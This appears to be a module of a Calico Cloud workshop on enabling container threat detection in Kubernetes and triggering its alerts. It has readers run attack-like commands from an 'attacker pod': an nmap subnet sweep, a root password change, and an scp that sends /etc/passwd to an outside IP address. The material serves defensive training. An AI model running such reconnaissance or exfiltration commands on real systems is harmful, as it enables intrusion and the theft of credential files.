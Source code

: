 # Module 6 - Realtime Container Thread Defence

Calico Cloud provides a threat detection engine that analyzes observed file and process activity to detect known malicious and suspicious activity.

Our threat detection engine also monitors activity within the containers running in your clusters to detect suspicious behaviour and generate corresponding alerts. The threat detection engine monitors the following types of suspicious activity within containers:

- Access to sensitive system files and directories
- Defence evasion
- Discovery
- Execution
- Persistence
- Privilege escalation

1. Let's start by enabling the container threat detection feature.
   For this, go to the `Threat Defense` option in the left-hand menu of Calico Cloud and select `Container Threat Detection`.

2. If it is not enabled, you will see a page like this:

   ![enable](https://github.com/tigera-solutions/cc-aks-detect-block-network-attacks/assets/104035488/54014c62-cbef-4718-93fa-75390febb88a)

   Click on the Enable Container Threat Detection button, and you will see the following page:

   ![running](https://github.com/tigera-solutions/cc-aks-detect-block-network-attacks/assets/104035488/42906ad6-ced1-40a8-b817-4a4b5c740d08)

   Perfect! Now any suspicious activities will generate an alert. Let's try some.

   In other to see the results faster, execute the following on the cluster:

   ```bash
   kubectl -n tigera-runtime-security annotate daemonset runtime-reporter unsupported.operator.tigera.io/ignore="true"
   kubectl -n tigera-runtime-security get daemonset.apps/runtime-reporter -o yaml | sed 's/15m/1m/g' | kubectl apply -f -
   ```

3. Execute the following commands from the attacker pod (if you did quit from its shell, it got deleted. Create it again if it's the case.).

   ```bash
   apk update
   apk add nmap
   nmap -sn $(hostname -i)/24
   ```
   
   Wait a minute and look in the Calico Cloud UI in the `Activity` > `Alerts`.

   Optionally, you can also try the following;
   
   ```bash
   passwd root
   scp -o ConnectTimeout=3 /etc/passwd goomba@198.13.47.158:/tmp/
   ```
   Wait another minute and look in the Calico Cloud UI in the `Activity` > `Alerts` again.

--- 

[:arrow_right: Module 7 - Quarantine Infected Workloads and KSPM](/modules/module-7-quarantine-kspm.md)  <br>

[:arrow_left: Module 5 - Configuring IDS protection and Workload-Centric WAF](/modules/module-5-ids-waf.md)  
[:leftwards_arrow_with_hook: Back to Main](/README.md)  
